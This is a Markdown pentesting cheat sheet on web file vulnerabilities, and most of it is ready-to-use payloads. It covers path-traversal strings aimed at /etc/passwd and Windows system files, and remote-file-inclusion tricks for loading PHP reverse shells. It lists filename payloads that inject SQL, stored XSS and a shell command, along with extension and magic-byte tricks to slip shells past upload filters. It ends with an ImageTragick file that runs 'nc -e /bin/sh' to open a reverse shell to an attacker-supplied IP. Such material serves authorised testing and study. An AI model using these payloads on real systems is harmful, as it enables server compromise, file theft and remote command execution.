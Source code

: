 # File Vulnerabilities

## LFI

local file inclusion happens when it is possible to access files stored on the target's system by passing a relative path to a parameter of a request. The number of "up one level instructions" is irrelevant because once we reach the root level, the additional "go up" instructions will be ignored.

See [LFI List](file-upload/lfi-list.md) for a list of possible target files for tests

#### Payloads

```
#Linux
../../../../../../../../../../../../etc/passwd
#Windows
..\..\..\..\..\..\..\..\..\..\..\..\Windows\system.ini
..\..\..\..\..\..\..\..\..\..\..\..\boot.ini
```

## RFI

Remote file inclusion happens when an attacker is able to make a web server include and execute files hosted on a different server controlled by the attacker. For instance by making a parameter point to an url of a file such as a reverse shell written in php it is possible to make the server follow the url and execute the shell

See [PHP shells](file-upload/php-shells.md) for shells to be used in an attack. Keep in mind that these files MUST be stored as .txt files instead of their executable format (.php, .jsp, .asp). If you don't do this the malicious code will be executed on your local server instead of the remote one

#### Payloads

```
www.google.com    #expect to see html code as result
<your url>:<port> #start a listener on the port and see if you receive an HTTP request
```

## File upload functionality

### Filename payloads

```
../../../tmp/evil.png                 #test for LFI
sleep(10)-- -.jpg                     #test for SQLi
<svg onload=alert(document.domain)>   #test for stored XSS
; sleep 10;                           #test for RCE
```

### Evade file restrictions

Changing the content type header when trying to upload reverse shells can bypass simple files detection systems.

These strings are effective in evading file upload checks only if the server does not check the actual file signature but checks only the extension.

```php
file.png.php
file.png.Php5
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....
file.png.php
file.png.pHp5
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
flile.phpJunk123png
file.png.jpg.php
file.php%00.png%00.jpg
```

### Magic bytes

To bypass file controls based on MIME type and file signature insert the following bytes sequences at the beginning of the file to change its type and edit file extension accordingly. Once the file is stored on the server you will have to find a way to edit it back in order to restore its origina behavior when opened

```php
python -c "print '<signature>'" > <file>
#hex signature example: \x4D\x5A
```

| File type                       | Mnemonic            | Signature                                    |
| ------------------------------- | ------------------- | -------------------------------------------- |
| DOS executable                  | "MZ"&#xD;           | 0x4D 0x5A&#xD;                               |
| PE32 executable                 | "MZ"...."PE.."&#xD; | 0x4D 0x5A ... 0x50 0x45 0x00 0x00&#xD;       |
| Mach-O Executable (32 bit)      | "FEEDFACE"&#xD;     | 0xFE 0xED 0xFA 0xCE&#xD;                     |
| Mach-O Executable (64 bit)&#xD; | "FEEDFACF"&#xD;     | 0xFE 0xED 0xFA 0xCF&#xD;                     |
| ELF Executable&#xD;             | ".ELF"&#xD;         | 0x7F 0x45 0x4C 0x46&#xD;                     |
| Zip Archive&#xD;                | "PK.."&#xD;         | 0x50 0x4B 0x03 0x04&#xD;                     |
| Rar Archive&#xD;                | "Rar!...."&#xD;     | 0x52 0x61 0x72 0x21 0x1A 0x07 0x01 0x00&#xD; |
| Ogg Container&#xD;              | "OggS"&#xD;         | 0x4F 0x67 0x67 0x53&#xD;                     |
| Matroska/EBML Container&#xD;    | N/A                 | 0x45 0x1A 0xA3 0xDF&#xD;                     |
| PNG Image&#xD;                  | ".PNG...."&#xD;     | 0x89 0x50 0x4E 0x47 0x0D 0x0A 0x1A 0x0A&#xD; |
| BMP Image&#xD;                  | "BM"&#xD;           | 0x42 0x4D&#xD;                               |
| GIF Image&#xD;                  | "GIF87a"&#xD;       | 0x47 0x49 0x46 0x38 0x37 0x61&#xD;           |
| GIF Image&#xD;                  | "GIF89a"&#xD;       | 0x47 0x49 0x46 0x38 0x39 0x61                |

## ImageTrick vulnerability

Save this code snippet in a text file and upload it to receive a reverse shell

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/image.jpg"|nc -e /bin/sh <IP> "<PORT>)'
pop graphic-context
```

